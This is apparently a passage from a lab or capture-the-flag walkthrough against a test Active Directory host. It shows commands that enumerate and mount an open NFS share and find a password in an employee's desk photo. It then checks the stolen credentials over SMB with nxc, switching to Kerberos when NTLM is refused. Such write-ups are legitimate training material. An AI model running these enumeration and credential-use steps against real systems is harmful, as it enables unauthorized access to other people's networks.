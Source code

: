 ```terminal
showmount -e 10.10.104.125

Export list for 10.10.104.125:
/profiles (everyone)
```

We mount the directory to check the contents and eventually find some images:

```terminal
mkdir share
sudo mount -t nfs -o rw,vers=4 10.10.104.125:/profiles $PWD/share

ls -lahR share | grep -B5 png

share/Administrator:
total 1,5M
drwxrwxrwx 2 nobody nogroup   64 Sep 15 15:25 .
drwxrwxrwx 2 nobody nogroup 4,0K Sep 15 15:18 ..
drwx------ 2 nobody nogroup   64 Sep 15 15:25 Documents
-rwxrwxrwx 1 nobody nogroup 1,5M Sep 13 18:12 vacation.png

share/Rosie.Powell:
total 1,8M
drwxrwxrwx 2 nobody nogroup   64 Sep 15 15:25 .
drwxrwxrwx 2 nobody nogroup 4,0K Sep 15 15:18 ..
drwx------ 2 nobody nogroup   64 Sep 15 15:25 Documents
-rwx------ 1 nobody nogroup 1,8M Sep 13 18:09 marketing.png
```

## Exploitation

After downloading the images, we find one is of an employee that has a note with a password on their desk. We try to authenticate with the credentials:

```terminal
nxc smb 10.10.104.125 -u 'rosie.powell' -p '***'
SMB         10.10.104.125   445    10.10.104.125    [*]  x64 (name:10.10.104.125) (domain:10.10.104.125) (signing:True) (SMBv1:False)
SMB         10.10.104.125   445    10.10.104.125    [-] 10.10.104.125\rosie.powell:*** STATUS_NOT_SUPPORTED
```

This shows `STATUS_NOT_SUPPORTED` which is the case because NTLM is not enabled on this domain. In order to get around this, we can authenticate with Kerberos instead (which needs the FQDN instead of the IP, so you will need to add it your hosts file or use the machines DNS server):

```terminal
nxc smb dc-jpq225.cicada.vl -u 'rosie.powell' -p '***' -k
SMB         dc-jpq225.cicada.vl 445    dc-jpq225        [*]  x64 (name:dc-jpq225) (domain:cicada.vl) (signing:True) (SMBv1:False)
SMB         dc-jpq225.cicada.vl 445    dc-jpq225        [+] cicada.vl\rosie.powell:***
```

Now the credentials show as valid. At this point we can do some more enumeration like collecting bloodhound data, looking at shares and manually going through LDAP. In this case, it won't really help though. 
